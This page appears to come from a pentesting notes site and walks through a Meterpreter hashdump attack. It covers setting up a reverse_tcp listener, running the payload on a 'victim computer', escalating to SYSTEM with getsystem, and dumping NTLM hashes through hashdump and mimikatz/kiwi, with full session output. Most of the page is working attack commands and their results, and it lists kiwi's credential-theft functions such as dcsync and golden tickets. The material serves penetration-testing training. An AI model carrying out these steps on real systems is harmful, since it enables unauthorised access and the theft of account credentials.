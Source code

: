 ```yaml
---
title: Meterpreter Hashdump
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 3
---
```


# Meterpreter Hashdump

## Introduction

Meterpreter enables the extraction of sensitive information, such as password hashes, from compromised systems.

## Step-by-Step Guide

### 1. Create the meterpreter binary

How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.md)

### 2. Create and run a listener

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit
```

### 3. Execute your meterpreter binary on the victim computer

### 4. Confirm connection

Sample (run *'ps'*): 
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.28.99.163:9999
[*] Sending stage (175686 bytes) to 172.28.96.1
[*] Meterpreter session 1 opened (172.28.99.163:9999 -> 172.28.96.1:11322) at 2024-01-24 11:14:18 +1100

meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User                Path
 ---   ----  ----         ----  -------  ----                ----
 0     0     [System Pro
             cess]
 4     0     System
 224   4     smss.exe
 296   288   csrss.exe
 308   432   svchost.exe
 344   288   wininit.exe
 356   336   csrss.exe
 396   336   winlogon.exe
 432   344   services.exe
 440   344   lsass.exe
 ...
```

### 5. Escalate privileges using GETSYSTEM
```bash
meterpreter > getuid
Server username: WIN-AJ4C67166DE\win7
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 5. Dump the hashes
- Using *hashdump*

  ```bash
  meterpreter > run post/windows/gather/hashdump

  [*] Obtaining the boot key...
  [*] Calculating the hboot key using SYSKEY 3b80f96e49b6b3a366c79b496cbe57bf...
  [*] Obtaining the user list and keys...
  [*] Decrypting user keys...
  [*] Dumping password hints...

  No users with password hints on this system

  [*] Dumping password hashes...


  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  win7:1000:aad3b435b51404eeaad3b435b51404ee:7a21990fcd3d759941e45c490f143d5f:::
  HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:55932e2f2cc08825aa02a23d7389a74f:::
  ```

- Using mimikatz/kiwi
  ```bash
  meterpreter > load mimikatz
  [!] The "mimikatz" extension has been replaced by "kiwi". Please use this in future.
  Loading extension kiwi...
    .#####.   mimikatz 2.2.0 20191125 (x86/windows)
  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
  ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
  '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
    '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

  [!] Loaded x86 Kiwi on an x64 architecture.

  Success.
  meterpreter > help kiwi

  Kiwi Commands
  =============

      Command       Description
      -------       -----------
      creds_all     Retrieve all credentials (parsed)
      creds_kerber  Retrieve Kerberos creds (parsed)
      os
      creds_livess  Retrieve Live SSP creds
      p
      creds_msv     Retrieve LM/NTLM creds (parsed)
      creds_ssp     Retrieve SSP creds
      creds_tspkg   Retrieve TsPkg creds (parsed)
      creds_wdiges  Retrieve WDigest creds (parsed)
      t
      dcsync        Retrieve user account information via DCSync (unparsed)
      dcsync_ntlm   Retrieve user account NTLM hash, SID and RID via DCSync
      golden_ticke  Create a golden kerberos ticket
      t_create
      kerberos_tic  List all kerberos tickets (unparsed)
      ket_list
      kerberos_tic  Purge any in-use kerberos tickets
      ket_purge
      kerberos_tic  Use a kerberos ticket
      ket_use
      kiwi_cmd      Execute an arbitary mimikatz command (unparsed)
      lsa_dump_sam  Dump LSA SAM (unparsed)
      lsa_dump_sec  Dump LSA secrets (unparsed)
      rets
      password_cha  Change the password/hash of a user
      nge
      wifi_list     List wifi profiles/creds for the current user
      wifi_list_sh  List shared wifi profiles/creds (requires SYSTEM)
      ared


  meterpreter > lsa_dump_sam
  [+] Running as SYSTEM
  [*] Dumping SAM
  Domain : WIN-AJ4C67166DE
  SysKey : 3b80f96e49b6b3a366c79b496cbe57bf
  Local SID : S-1-5-21-1793970707-311962389-2470865123

  SAMKey : c010854906e331ef5397ae7e6ead8858

  RID  : 000001f4 (500)
  User : Administrator
    Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

  RID  : 000001f5 (501)
  User : Guest

  RID  : 000003e8 (1000)
  User : win7
    Hash NTLM: 7a21990fcd3d759941e45c490f143d5f

  RID  : 000003ea (1002)
  User : HomeGroupUser$
    Hash NTLM: 55932e2f2cc08825aa02a23d7389a74f
  ```

## Video Demonstration

[<img src="https://img.youtube.com/vi/_cF1LXJyHZ4/hqdefault.jpg"
/>](https://www.youtube.com/embed/_cF1LXJyHZ4)

## References
- https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#hashdump
- https://www.offsec.com/metasploit-unleashed/mimikatz/